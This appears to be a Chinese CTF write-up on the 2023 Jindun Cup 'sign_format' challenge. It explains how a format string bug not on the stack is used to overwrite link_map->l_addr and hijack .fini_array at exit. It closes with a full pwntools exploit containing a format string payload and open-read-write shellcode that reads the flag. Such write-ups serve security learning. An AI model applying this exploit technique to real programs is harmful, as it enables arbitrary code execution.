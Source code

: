 ```yaml
---
title: 格式化字符串漏洞之劫持dl.fini
author: seyedog
date: 2023-12-18 20:40:00 +0800
categories: [Blogging, fmt]
tags: [pwn]
---
```



### 1. .fini_array劫持

以2023金盾杯的题为例
#### 1.1 2023金盾杯 sign_format

题目介绍：一道非栈上的格式化字符串，通过修改dl_fini数组里的偏移值，使函数在退出时执行我们写在bss段上的shellcode。


题目保护分析：没开PIE，其他防护都开了。其次开启了沙箱，需要ORW

题目主要流程：
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  sub_40135D();
  puts("Welcome here!");
  puts("It's a simple sign-in question.");
  puts("Let's start!");
  close(1);
  read(0, format, 0x100uLL);
  printf(format);
  return 0LL;
}
```

有一个很长的输入，之后是格式化字符串漏洞，但是关闭了标准输出流。

其中format保存在bss段上，所以不能修改返回地址了。
格式化字符串%n解析的是地址，当格式化字符串不写在栈上，我们无法通过访问写在栈上的地址来实现任意地址写。而且不能控制返回地址了。

考虑使用.fini_array劫持

#### 1.2 劫持.fini_array

实现功能：在执行exit函数的时候，执行任意地址上的程序

利用条件：需要修改一个在ld.so段上的值。
猜测这个值会在进行动态链接的时候过程中残留在栈上（存疑）

##### 1.2.1 原理分析

下面是程序执行流程图：

![星盟周报11.png](assets/img/pictureI/星盟周报11.png)

根据上图流程，如果我们控制`exit`函数的finiarray，可以实现任意代码执行。

##### 1.2.2 dl_fini函数

![](assets/img/pictureI/星盟周报1.png)

`exit`函数执行的时候会调用`dl_fini`函数。

本来l->l_addr为0，而l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr指针指向程序中的fini_array段的地址，也就是l->l_info\[DT_FINI_ARRAY]->d_un.d_ptr的值为0x0000000000403D98

![](assets/img/pictureI/星盟周报2.png)

如果我们能控制**linkmap->l_addr**指针，就可以将程序偏移到我们写的位置，执行shellcode。
需要注意这里存的是一个程序地址：0x401200，所以我们伪造`l_addr`的时候将偏移后的值改为shellcode的地址。

那么如何通过格式化字符串控制`l_addr`呢？这个就需要用到在栈上留存的一个`ld.so`上的指针了

#### 1.3 gdb动态分析利用过程

首先，在main函数执行完毕之后会跳转到exit函数执行：

![](assets/img/pictureI/星盟周报7.png)

然后我们步进到exit函数中：

![](assets/img/pictureI/星盟周报6.png)

可见exit函数会调用一个叫`__run_exit_handlers`的函数
继续步进，直到这个函数调用了`__dl_fini`函数，然后dl_fini函数会执行call rax地址：
![](assets/img/pictureI/星盟周报5.png)

具体查看rax地址是0x40406b，指向0x404073，其实这里已经是被我们修改了。原本rax应该是0x0403D98 -> 0x401200，原本是要去执行这个代码的：
![](assets/img/pictureI/星盟周报8.png)

dl_fini函数：
![](assets/img/pictureI/星盟周报1.png)

当我们修改了l_addr之后，array\[i]就可以被控制了。

而我们只需要计算0x40406B - 0x403D98 = 723，就知道我们应该把`l_addr`改成多少了。那么我们怎么改这个值呢？

#### 1.4 修改ElfW中l->l_addr劫持fini_array执行

前面我们说过了，在栈上有一个ld.so的地址残留，猜测是在动态链接的过程中残留在栈上的，对应这道题：

![](assets/img/pictureI/星盟周报9.png)
就是那个末尾是0x2e0的粉色的地址。里面存的值0x2d3就是723，这里是执行完格式化字符串漏洞，已经被我们修改过了。原本里面存的应该是0，对应的就是`l->l_addr = 0`

具体在dl_fini函数中：
![](assets/img/pictureI/星盟周报3.png)

执行 `add rax,qword ptr [r15]` ，这个r15此时保存的就是栈上ld.so保存的那个数据，那么只要利用格式化字符串漏洞修改这个ld.so地址中存的值，就可以控制让rax中保存的值从0x401200+0x0 改为访问我们希望执行的shellcode的地址。
这里就是对应`l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`，从而让fini_array被劫持。
而具体改为什么数字，我们前面已经计算过了：0x40406B - 0x403D98 = 723
接下来只需要找到ld.so这个地址的格式化字符串偏移，然后将他里面存放的数据从0修改为723即可。

###### 这里插一嘴
在执行dl_fini的过程中有几步rax的值是0x403e00：

![](assets/img/pictureI/星盟周报10.png)

这个其实是`.dynamic`节的地址，保存的是用于动态链接函数的信息表地址，或者其他什么地址。这个需要看具体值：
![](assets/img/pictureI/星盟安全4.png)

###### 结构体如下：
```c
typedef struct{
	ELF64_Sxword d_tag;
	union{
		ELF64_Xword d_val;
		ELF64_Addr d_ptr;
	}d_un;
}ELF64_Dyn;
```

这个结构体根据第一个值`d_tag`的具体取值选择对应第二个值是用来做什么的。
这里应该是用来找dl_fini的偏移。
这个学过ret2dlresolve的师傅应该很熟悉
###### 言归正传

#### 1.4 exp

```python
from ctypes import *
from pwn import *
banary = "/home/giantbranch/PWN/question/City/jindun/2023/pwn1"
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(banary)
# libc = ELF("/home/giantbranch/PWN/libc/libc.so.6")
# libc=ELF("/home/giantbranch/PWN/libc/libc6_2.27-3ubuntu1.5_amd64.so")
ip = '123.56.237.147'
port = 47726
local = 1
if local:
    io = process(banary)
else:
    io = remote(ip, port)

context(log_level = 'debug', os = 'linux', arch = 'amd64')
#context(log_level = 'debug', os = 'linux', arch = 'i386')

def dbg():
    gdb.attach(io)
    pause()

s = lambda data : io.send(data)
sl = lambda data : io.sendline(data)
sa = lambda text, data : io.sendafter(text, data)
sla = lambda text, data : io.sendlineafter(text, data)
r = lambda : io.recv()
ru = lambda text : io.recvuntil(text)
uu32 = lambda : u32(io.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
iuu32 = lambda : int(io.recv(10),16)
iuu64 = lambda : int(io.recv(6),16)
uheap = lambda : u64(io.recv(6).ljust(8,b'\x00'))
lg = lambda addr : log.info(addr)
ia = lambda : io.interactive()

main_read = 0x0040144A

bss = 0x0404060

fini_array = 0x403d90   #0x403d98 - 0x403da0  .fini_array
    # array[0]->__do_global_dtors_aux
    # array[1]->fini

# payload = b"%"+b"240c%21$hhn"
# payload = b"%"+b"584c%34$hn"
#0x403fe0
# payload = b"%"+b"723c%34$hn"
payload = b"%"+b"723c%34$hn"

payload2= """
   push   0x67616c66
   push   0x2
   pop    rax
   mov    rdi,rsp
   xor    rsi,rsi
   syscall
   mov    rdi,rax
   xor    rax,rax
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
   push   0x1
   pop    rax
   push   0x2
   pop    rdi
   mov    rsi,0x404200
   push   0x30
   pop    rdx
   syscall
"""
print(len(payload))
payload = payload + p64(0x40406b+8)+ asm(payload2)
print(len(payload))
dbg()
sl(payload)

ia()
    
```



